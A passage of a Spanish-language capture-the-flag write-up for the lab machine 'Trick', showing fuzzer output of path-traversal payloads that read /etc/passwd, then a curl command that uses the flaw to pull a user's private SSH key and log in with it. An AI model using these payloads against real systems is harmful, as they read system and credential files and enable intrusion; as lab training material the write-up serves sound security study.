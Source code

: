 ```console
ID           Response   Lines    Word       Chars       Payload                                                                                                       ===================================================================== 
000000327:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"         
000000330:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd" 
000000328:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....
000000332:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"
000000331:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                                              
000000342:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//etc/passwd"
000000346:   200        41 L     68 W       2351 Ch     "....//....//....//etc/passwd"                                      
000000338:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//etc/passwd"
000000329:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                                            
000000336:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                 
000000345:   200        41 L     68 W       2351 Ch     "....//....//....//....//etc/passwd"                                                                       
000000344:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//etc/passwd"                                                                 
000000341:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//etc/passwd"                                               
000000343:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//etc/passwd"                                                           
000000340:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//etc/passwd"                                         
000000337:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd"                       
000000339:   200        41 L     68 W       2351 Ch     "....//....//....//....//....//....//....//....//....//....//etc/passwd"
```

Al final logramos explotar la vulnerabilidad y listar archivos del servidor. El archivo _/etc/hosts_ nos dió la información que existe un usuario llamado `michael`, y ya que podemos listar archivos y tenemos abierto el puerto **22 (SSH)** abierto, intentamos extraer la **llave privada RSA** alojada en `/<user_home_directory>/.ssh/id_rsa`

Al final conseguimos extraerla y nos conectamos satisfactoriamente por **SSH** y conseguimos la flag:

```console
❯ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa > id_rsa_michael
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1823    0  1823    0     0   8530      0 --:--:-- --:--:-- --:--:--  8518
❯ chmod 600 id_rsa_michael
❯ ssh -i id_rsa_michael michael@10.10.11.166
The authenticity of host '10.10.11.166 (10.10.11.166)' can't be established.
ED25519 key fingerprint is SHA256:CUKzxire1i5wxTO1zNuBswEtE0u/RyyjZ+v07fOUuYY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.166' (ED25519) to the list of known hosts.
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64
```